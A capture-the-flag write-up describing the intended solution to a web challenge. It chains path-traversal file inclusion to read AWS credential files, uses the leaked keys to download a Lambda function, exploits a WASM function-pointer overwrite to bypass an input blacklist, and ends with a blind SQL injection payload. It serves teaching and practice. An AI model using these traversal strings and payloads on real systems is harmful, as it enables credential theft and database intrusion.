 # Intended Solution

The flag is the password of the admin user. The username and password fields of the login page only allow alphabetical inputs only. Any numerical characters or symbols are blacklisted by a lambda function.

## Part 1: LFI to leak AWS credentials

After logging in with bobby's credentials, the user is brought to a page with a form to create a reminder. The form includes a text input for a reminder, the name of the user, and the view type of the reminder. The viewType parameter is unsanitized and can be used to load any file.

Looking at the provided server.js, we can see `process.env.AWS_SDK_LOAD_CONFIG = 1;`, which indicates that the AWS credentials are stored in the .aws folder in the home directory. Simply replacing the viewType parameter with `../../../../../../../../root/.aws/credentials` and `../../../../../../../../root/.aws/config` will raise errors like these:

```html
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Error: ../../../../../../../../root/.aws/credentials:1:1<br> &nbsp;&gt; 1| [default]<br>-------^<br> &nbsp; &nbsp;2| aws_access_key_id = SOME_KEY_HERE<br> &nbsp; &nbsp;3| aws_secret_access_key = SOME_OTHER_KEY_HERE<br><br>unexpected text &quot;[defa&quot;<br> &nbsp; &nbsp;at makeError (/app/node_modules/pug-error/index.js:34:13)<br> &nbsp; &nbsp;at Lexer.error (/app/node_modules/pug-lexer/index.js:62:15)<br> &nbsp; &nbsp;at Lexer.fail (/app/node_modules/pug-lexer/index.js:1629:10)<br> &nbsp; &nbsp;at Lexer.advance (/app/node_modules/pug-lexer/index.js:1694:12)<br> &nbsp; &nbsp;at Lexer.callLexerFunction (/app/node_modules/pug-lexer/index.js:1647:23)<br> &nbsp; &nbsp;at Lexer.getTokens (/app/node_modules/pug-lexer/index.js:1706:12)<br> &nbsp; &nbsp;at lex (/app/node_modules/pug-lexer/index.js:12:42)<br> &nbsp; &nbsp;at Object.lex (/app/node_modules/pug/lib/index.js:104:9)<br> &nbsp; &nbsp;at Function.loadString [as string] (/app/node_modules/pug-load/index.js:53:24)<br> &nbsp; &nbsp;at compileBody (/app/node_modules/pug/lib/index.js:82:18)</pre>
</body>
</html>
```

From this we can read off the AWS access keys and region, and use the AWS CLI to view the blacklist lambda function.

## Part 2: Enumerating and downloading lambda function

After filling in the required information after running `aws config`, we can use these commands to list and download the lambda function:

```powershell
PS C:\Users\user> aws lambda list-functions
{
    "Functions": [
        {
            "FunctionName": "craft_query",
            "FunctionArn": "arn:aws:lambda:ap-southeast-1:531845528441:function:craft_query",
            "Runtime": "nodejs18.x",
            "Role": "arn:aws:iam::531845528441:role/query",
            "Handler": "index.handler",
            "CodeSize": 26889,
            "Description": "",
            "Timeout": 3,
            "MemorySize": 128,
            "LastModified": "2023-06-06T16:15:30.000+0000",
            "CodeSha256": "QIiGvIQxqppAv1c2Z5oiiT3WXtpM1ODbyip1891ZkXQ=",
            "Version": "$LATEST",
            "TracingConfig": {
                "Mode": "PassThrough"
            },
            "RevisionId": "f032fc4f-a894-4942-8995-80f7671bb771",
            "PackageType": "Zip",
            "Architectures": [
                "x86_64"
            ],
            "EphemeralStorage": {
                "Size": 512
            },
            "SnapStart": {
                "ApplyOn": "None",
                "OptimizationStatus": "Off"
            }
        }
    ]
}

PS C:\Users\user> wget -O craft_query.zip "$(aws lambda get-function --function-name craft_query --query 'Code.Location' --output text)"
```

Extracting the zip file, we're given 3 files: index.js, site.js, and site.wasm.

## Part 3: Function pointer overwrite in the WASM file to bypass blacklist

From the lambda handler, we see that only one function is exported from the wasm file, `craft_query`. Also, the wasm is compiled using emscripten:

```javascript
const CraftQuery = EmscriptenModule.cwrap('craft_query', 'string', ['string', 'string']);

...

const username = event.username;
const password = event.password;

const result = CraftQuery(username, password);
return result;
```

The function takes a username and password and returns a string. To analyze the wasm binary, create a test website that loads and executes `craft_query` from the wasm file for debugging with browser devtools. The JavaScript glue is designed for the node environment, so compile a test C file to wasm for the browser using Emscripten, and adapt the JavaScript glue to enable execution in a web environment.

The test website is located at `./test`. Run `python3 -m http.server 80` in the directory to access the website.

We can see that `craft_query` returns an SQL statement `SELECT * from Users WHERE username="example" AND password="example"`. On sending an input with characters other than alphabets, the function returns `Blacklisted!`. To obtain the password of the admin user, it is obvious that some form of error-based blind SQL injection is necessary, but doing so is difficult with the blacklist in place. We must take advantage of another vulnerability to carry out SQL injection.

Curiously, when sending a long input for the username, the function errors out with `Uncaught RuntimeError: memory access out of bounds`. When fuzzing the length of the username parameter, at a length of 69 characters, the error changes to `Uncaught RuntimeError: table index is out of bounds`. At a length of 68 characters, the error changes again to `Uncaught RuntimeError: null function or function signature mismatch`. Upon inspection of the wasm file in the browser's developer tools, we can see that the error occurs at the end of `craft_query` at this line:

```
call_indirect (param i32 i32) (result i32)
```

When setting a breakpoint at this line and sending legitimate parameters, stepping into this indirect call will land the program in the `is_blacklisted` function. By sending different inputs, looking at the memory via the memory inspector panel, and stepping through the code in the debugger, a few things become apparent:

1. The flow of the program is as follows: `craft_query` calls `func4` with two parameters, the second one being a pointer to the username. The username is then loaded into the address at the first parameter, and `func4` returns. It then calls `func15` on an address, the address to the password string, and the integer 59. Then, it calls `is_blacklisted` on the username and password, and `func7` is called on both the username and password separately. If `func7` returns true for both calls, `is_blacklisted` calls `load_query` with the username and password and returns its result.
2. `func4` is a loop that iterates through the string and looks for the `%` sign (37 in decimal). It then converts the next two characters into a new one. This function is a url decoder.
3. `func15` is `strncpy`.
4. `func7` iterates through the string to find any non-alphabetical characters, and returns false if detected.
5. The call to `is_blacklisted` is indirect and the function pointer is stored in memory.

The runtime errors seen previously was the result of the function pointer being overwritten by the username. By overwriting the pointer with the `load_query` function, we can bypass the blacklist function entirely. Doing

```
username=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%02
```

will overwrite the function pointer with the index of the `load_query` function in the function table 0x02 after being url decoded. Since `load_query` also takes in two string arguments, this overwrite doesn't error out.

## Part 4: Integrating the overwrite with SQLi

Integrating this with a standard SQLi payload, we can craft a new payload to allow for exploitation on the server. There are a few things to take note of:

1. Query cannot extend past 69 characters.
2. When enumerating past the 9th character, the length of padding at the end of the query must be adjusted to account for the change in number length.
3. The `BINARY` keyword must be used for case-sensitive comparison.

An example payload that works is:

```sql
admin" AND (SELECT BINARY SUBSTR(password,1,1) LIMIT 1)="P" --      %02
```

The full exploit script is in expl.py.